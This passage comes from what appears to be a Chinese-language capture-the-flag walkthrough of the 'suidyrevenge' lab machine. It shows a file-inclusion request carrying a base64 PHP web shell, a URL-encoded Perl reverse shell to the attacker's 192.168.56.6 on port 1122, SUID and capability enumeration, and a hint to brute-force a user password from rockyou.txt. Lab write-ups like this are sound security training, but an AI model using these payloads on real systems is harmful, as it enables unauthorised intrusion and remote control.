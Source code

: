 成功解析

执行命令反弹shell

```Bash
http://192.168.56.9/supersecure/mysuperbackdoor.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnb2snIDs/Pg==&cmd=perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.56.6%22%3B%24p%3D1122%3Bsocket%28S%2CPF\_INET%2CSOCK\_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr\_in%28%24p%2Cinet\_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh%20-i%22%29%3B%7D%3B%27
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/17.SuidyReverse.011.png)

## 4. 提权murda   

进来后发现只能进入suidy用户的目录

提权检测一下

```Bash
(remote) www-data@suidyrevenge:/home/suidy$ find / -perm -4000 2>/dev/null
/home/suidy/suidyyyyy
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/umount
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/mount
/usr/bin/violent
/usr/bin/newgrp
/usr/bin/chfn 
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
(remote) www-data@suidyrevenge:/home/suidy$ /sbin/getcap / -r 2>/dev/null
/usr/bin/ping = cap\_net\_raw+ep
```
看来应该是要从suidyyyy这个文件下手

但是suidyyy这个东西我们没权限啊

先试一下可不可以切换到其他用户

```Bash
theuser
suidy
mudra
```
切换不了。至少简单的密码不对

在网站根目录下发现murdanote.txt

```Bash
(remote) www-data@suidyrevenge:/var/www/html$ cat murdanote.txt
I always lost my password so Im using
one password from rockyou.txt !

-murda
```
这就是说叫我们去爆破他的密码啊
